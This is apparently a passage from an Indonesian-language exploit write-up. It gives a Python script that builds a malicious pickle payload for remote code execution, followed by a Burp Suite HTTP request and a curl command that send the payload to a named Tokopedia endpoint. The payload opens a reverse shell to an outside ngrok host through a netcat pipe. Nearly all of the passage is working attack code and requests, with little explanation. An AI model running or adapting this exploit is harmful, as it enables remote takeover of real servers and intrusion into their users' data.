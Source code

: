 ```python
#!/usr/bin/python

import cPickle
import sys
import base64
import urllib

DEFAULT_COMMAND ="rm /tmp/shell; mknod /tmp/shell p; nc 0.tcp.ngrok.io 11758 0</tmp/shell | /bin/sh 1>/tmp/shell"
COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

print urllib.quote(cPickle.dumps(PickleRce()))

```

kemudian kita dapat menjalankan request ini menggunakan burpsuite.

```
GET /v1/emailclick?em=1337%40gmail.com&user_id=cposix%0Asystem%0Ap1%0A%28S%27rm%20/tmp/shell%3B%20mknod%20/tmp/shell%20p%3B%20nc%200.tcp.ngrok.io%2011758%200%3C/tmp/shell%20%7C%20/bin/sh%201%3E/tmp/shell%27%0Ap2%0AtRp3%0A.&d=S%27%5Cxf2%5Cxb2%5Cxb3%5Cxd2%5Cx90%25%5Cxf82%5Cxe3h%5Cxa7%5Cxa1%5Cx13uow%5Cr%5Cx92K%5Cx12%7E%27%0Ap0%0A.&ts=1536374957&cid=S%224%5Cxc2%5Cxe4BQ%5Cxfe%5Cx8f%5Cxcd%5Cxf5%5Cx83f%27T%5Cx04%5Cx13%5Cxf3%5Cxbf%5Cxd9%27EHB%5Cx0b%5Cxcc%5Cx08%5Cxc9U%5Cxaf%28S%5Cxb3%5Cxcc%5Cx91%5Cxbf%5Cxf6%5Cx1e%5Cxfe%5Cxb6%5Cx11i%5Cxd7g%5Cxaf%5Cxcf%5Cx06%5Cxf0%5Cxf2%5CnDll%5Cxeb%22%0Ap0%0A.&ut=l&moeclickid=5b93333e7da87848b22e8659_F_T_EM_AB_0_P_0_L_0ecli42&app_id=S%27%5Cxd8%5C%5C%5Cx80%5Cxb8%5Cxb9f%5Cxb4%5Cxf9%5CxceC%5Cx85%22k%5Cxec%5Cxca%5Cxc9h%5Cx0b%5CxcfIf%5Cx8b%5Cx0e%5Cx84%5Cx06%5Cxade%5Cxa6%5Cxd1%5Cxa1.%5Cxe8%27%0Ap0%0A.&pl=A&c_t=ge&rlink=https://tokopedia.link/Kmg2re6Z0P?$deep_link=true%26utm_source=7teOvA%26utm_medium=email%26utm_campaign=co_OFS_BR_982018_Compilation%26 HTTP/1.1
Host: explorer.tokopedia.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,de;q=0.8,es;q=0.7,id;q=0.6,ms;q=0.5
Cookie: [..REDACTED..]
```

atau bisa juga menggunakan curl.

```
curl "https://explorer.tokopedia.com/v1/emailclick?em=1337%40gmail.com&user_id=cposix%0Asystem%0Ap1%0A%28S%27rm%20/tmp/shell%3B%20mknod%20/tmp/shell%20p%3B%20nc%200.tcp.ngrok.io%2011758%200%3C/tmp/shell%20%7C%20/bin/sh%201%3E/tmp/shell%27%0Ap2%0AtRp3%0A.&d=S%27%5Cxf2%5Cxb2%5Cxb3%5Cxd2%5Cx90%25%5Cxf82%5Cxe3h%5Cxa7%5Cxa1%5Cx13uow%5Cr%5Cx92K%5Cx12%7E%27%0Ap0%0A.&ts=1536374957&cid=S%224%5Cxc2%5Cxe4BQ%5Cxfe%5Cx8f%5Cxcd%5Cxf5%5Cx83f%27T%5Cx04%5Cx13%5Cxf3%5Cxbf%5Cxd9%27EHB%5Cx0b%5Cxcc%5Cx08%5Cxc9U%5Cxaf%28S%5Cxb3%5Cxcc%5Cx91%5Cxbf%5Cxf6%5Cx1e%5Cxfe%5Cxb6%5Cx11i%5Cxd7g%5Cxaf%5Cxcf%5Cx06%5Cxf0%5Cxf2%5CnDll%5Cxeb%22%0Ap0%0A.&ut=l&moeclickid=5b93333e7da87848b22e8659_F_T_EM_AB_0_P_0_L_0ecli42&app_id=S%27%5Cxd8%5C%5C%5Cx80%5Cxb8%5Cxb9f%5Cxb4%5Cxf9%5CxceC%5Cx85%22k%5Cxec%5Cxca%5Cxc9h%5Cx0b%5CxcfIf%5Cx8b%5Cx0e%5Cx84%5Cx06%5Cxade%5Cxa6%5Cxd1%5Cxa1.%5Cxe8%27%0Ap0%0A.&pl=A&c_t=ge&rlink=https://tokopedia.link/Kmg2re6Z0P?$deep_link=true%26utm_source=7teOvA%26utm_medium=email%26utm_campaign=co_OFS_BR_982018_Compilation%26"
```
